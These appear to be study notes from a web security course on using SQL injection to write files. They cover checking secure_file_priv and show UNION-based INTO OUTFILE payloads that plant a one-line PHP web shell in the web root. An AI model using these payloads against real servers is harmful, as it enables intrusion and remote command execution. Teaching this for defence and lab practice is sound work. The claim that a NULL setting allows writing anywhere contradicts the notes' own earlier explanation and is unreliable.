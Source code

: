 ### File Writing
The `secure_file_priv` variable is used to determine where to read/write files from. An **empty** value lets us *read files from the entire file system*. Otherwise, if a certain **directory is set**, we can only *read from the folder* specified by the variable. On the other hand, **NULL** means we *cannot read/write* from any directory.

| DBMS        | Default 'secure_file_priv' Setting |
| ----------- | ---------------------------------- |
| MariaDB     | Empty                              |
| MySQL       | /var/lib/mysql-files               |
| Modern DBMS | NULL                               |

```sql
SELECT variable_name, variable_value FROM information_schema.global_variables where variable_name="secure_file_priv"

-- UNION query
cn' UNION SELECT 1, variable_name, variable_value, 4 FROM information_schema.global_variables where variable_name="secure_file_priv"-- 
```

![[Pasted image 20231007151159.jpg]]
If results is **NULL**, we can read/write files to any location.

The `SELECT INTO OUTFILE` statement can be used to write data from *select queries into files*. This is usually used for exporting data from tables.
Let's try writing a text file to the webroot and verify if we have write permissions. The below query should write file written successfully! to the `/var/www/html/proof.txt` file:
```sql
select 'file written successfully!' into outfile '/var/www/html/proof.txt'

-- UNION query
cn' union select 1,'file written successfully!',3,4 into outfile '/var/www/html/proof.txt'-- -
```
%% Note: To write a web shell, we must know the base web directory for the web server (i.e. web root). One way to find it is to use `load_file` to read the server configuration, like **Apache's** configuration found at `/etc/apache2/apache2.conf`, **Nginx's** configuration at `/etc/nginx/nginx.conf`, or **IIS** configuration at `%WinDir%\System32\Inetsrv\Config\ApplicationHost.config`, or we can search online for other possible configuration locations. Furthermore, we may run a fuzzing scan and try to write files to different possible web roots, using this [wordlist for Linux](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/default-web-root-directory-linux.txt) or this [wordlist for Windows](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/default-web-root-directory-windows.txt). %%

![[Pasted image 20231007152955.png]]

Thus, upload a PHP web shell
```php
<?php system($_REQUEST[0]); ?>
```
```sql
cn' UNION SELECT "",'<?php system($_REQUEST[0]);?>', "", "" INTO OUTFILE '/var/www/html/shell.php'-- -
```
